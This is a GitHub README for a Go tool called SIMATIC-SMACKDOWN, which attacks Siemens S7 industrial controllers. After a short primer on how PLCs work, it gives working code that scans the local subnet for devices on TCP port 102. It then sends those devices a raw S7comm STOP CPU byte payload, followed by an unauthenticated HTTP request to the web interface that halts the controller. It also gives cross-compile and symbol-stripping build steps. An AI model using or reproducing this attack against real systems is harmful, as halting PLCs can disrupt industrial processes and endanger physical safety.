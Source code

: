 # :wrestling: SIMATIC-SMACKDOWN:

A simple and compact program targeting SIMATIC S7 Programmable Logic Controllers (PLCs) written in Go. Allowing for cross-compilation to target multiple operating systems out of the box, SIMATIC-SMACKDOWN enumerates networks for S7 devices before launching a distributed attack to STOP PLC CPUs.

<p align="center">
  <img width="700" height="450" alt="PXCM" src="https://user-images.githubusercontent.com/72598486/204815532-a523b140-0d63-404d-b3bf-25443b6fac7b.jpg">
</p>

# What are Siemens S7 Programmable Logic Controllers?

SIMATIC is a series of programmable logic controller and automation systems developed by Siemens. The series has gone through four major generations, the latest being the SIMATIC S7 generation. These PLCs are small industrial computers with modular components designed to automate customized control processes. To understand a PLC system, it is best to breakdown the system into two primary parts: the **central processing unit (CPU)** and the **input/output (I/O)** interface system.


![image](https://user-images.githubusercontent.com/72598486/204818575-0b552158-01e0-47fe-9c44-0a07faca07e1.png)


The **central processing unit** contains memory and a communication system needed to instruct the PLC on how to perform. Hence, the reason why CPUs are the “brain” of programmable logic controllers. This is also where data processing and diagnostics take place. The communication system allows the CPU to communicate with other devices such as I/O devices, programming devices, and other PLC systems.

**Input/output (I/O)** modules relay the necessary information to the CPU and communicate the required task in a continuous loop. Input and output devices can either be digital or analog form: digital devices are finite values represented in values of 1 or 0, analog devices are infinite values, and measure ranges of currents or voltages. Inputs or providers are switches, sensors, and smart devices in analog or digital forms. Outputs can be motor starters, lights, valves, and smart devices.

The automation process can be seen in the image below:

![image](https://user-images.githubusercontent.com/72598486/204818074-ac112340-df1f-451f-b11d-7a4bd7e3f149.png)

But what if we could send a signal to turn off the CPU so that communication between the device and the operator could not occur?

# How SIMATIC-SMACKDOWN Works:

SIMATIC-SMACKDOWN operates in three phases: interface enumeration, PLC scanning, and STOP PLC CPU.

The first phase of the program enumerates local network interfaces, gathering information about the host's environment:

```go
	// Get Private Interface
    for _, address := range addrs {
        // only add non loopback IPv4 addresses
        ipnet, ok := address.(*net.IPNet)
        if ok && ipnet.IP.To4() != nil && !ipnet.IP.IsLoopback() {
			var ip_addr = ipnet.IP
            return ip_addr.String()
        }
	}
	return ""
  ```
  
After determining the private IP address, the program enumerates the subnet for devices listening on TCP 102, which is defined as ISO-TSAP Transport Service Access Point) Class 0 protocol and utilized by Siemens S7Comm communications.

```go
	// Connect to device ports
	for i := range ip_list {
    	target := ip_list[i] + ":102"
    	conn, err := net.DialTimeout("tcp", target, 1 * time.Second)
    	if err != nil {
			continue
		} else {
			scanned_ips = append(scanned_ips, ip_list[i])
		}
		conn.Close()
	}
	return scanned_ips
```
Once the program identifies the PLCs, SIMATIC-SMACKDOWN launches a STOP CPU command via raw data to the controller. If the device is not password protected, it will turn off the PLC's CPU and stop operations. This functionality has only been tested on an S7-300 and S7-1200.

```go
	// Connect to device ports
	stop := "\x03\x00\x00\x21\x02\xf0\x80\x32\x01\x00\x00\x06\x00\x00\x10\x00\x00\x29\x00\x00\x00\x00\x00\x09\x50\x5f\x50\x52\x4f\x47\x52\x41\x4d"
	for i := range scanned_ips {
    	target := scanned_ips[i] + ":102"
    	conn, err := net.Dial("tcp", target)
    	if err != nil {
			continue
		} else {
			_, err = conn.Write([]byte(stop))
		}
		conn.Close()
	}
```

After sending the termination command to the controller, the program sends an additional STOP CPU via the web interface. If the device is configured to "allow Everybody to change operating mode (Start/Stop)" in the webserver user management, this unauthenticated access will stop controller operations. 

```go
	for i := range scanned_ips {
		client := &http.Client{}
		var data = strings.NewReader(`Run=1&PriNav=Stop`)
		req, err := http.NewRequest("POST", "http://"+scanned_ips[i]+"/CPUCommands", data)
		if err != nil {
			continue
		}
		req.Header.Set("Host", scanned_ips[i])
		req.Header.Set("Content-Length", "19")
		req.Header.Set("Cache-Control", "max-age=0")
		req.Header.Set("Upgrade-Insecure-Requests", "1")
		req.Header.Set("Origin", "http://"+scanned_ips[i])
		req.Header.Set("Content-Type", "application/x-www-form-urlencoded")
		req.Header.Set("User-Agent", "Mozilla/5.0. (Windows NT 10.0; Win64; x64) AppleWebkit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36")
		req.Header.Set("Accept", "text/html, application /xhmtl+xml, application/xml; q=0.9,image/avif, image/webp, image/apng,*/ - *; q=0.8, application/signed-exchange; v=b3; q=0.9")
		req.Header.Set("Referer", "http://"+scanned_ips[i]+"/Portal/Portal.mwsl?PriNav=Start")
		req.Header.Set("Accept-Encoding", "gzip, deflate")
		req.Header.Set("Accept-Language", "en-US, en; q=0.9")
		req.Header.Set("Connection", "close")
		req.Header.Set("Cookie", "siemens_automation_no_intro=TRUE")
		resp, err := client.Do(req)
```

# Install: 

Download the repository:

```
$ mkdir SIMATIC-SMACKDOWN
$ cd SIMATIC-SMACKDOWN/
$ sudo git clone https://github.com/RoseSecurity/SIMATIC-SMACKDOWN.git
```

Install Go by finding the appropriate package for your OS at ```https://go.dev/dl/```. You can also download the installer file via ```wget```:

```
$ # wget https://dl.google.com/go/go1.13.5.linux-amd64.tar.gz
# Extract tarball and profit
$ sudo tar -C /usr/local/ -xzf go1.13.5.linux-amd64.tar.gz
```

Or Ubuntu install using ```apt```

``` 
$ sudo apt install golang-go
```

Build Binaries:

```
# Compile for Windows AMD64
$ env GOOS=windows GOARCH=amd64 go build simatic_smackdown.go

# NOTE: The previously compiled binary will contain symbol table and debugging information. To avoid this, use the following:
$ env GOOS=windows GOARCH=amd64 go build -ldflags "-s -w" simatic_smackdown.go

# Compile for Linux AMD64
$ env GOOS=linux GOARCH=amd64 go build simatic_smackdown.go
```
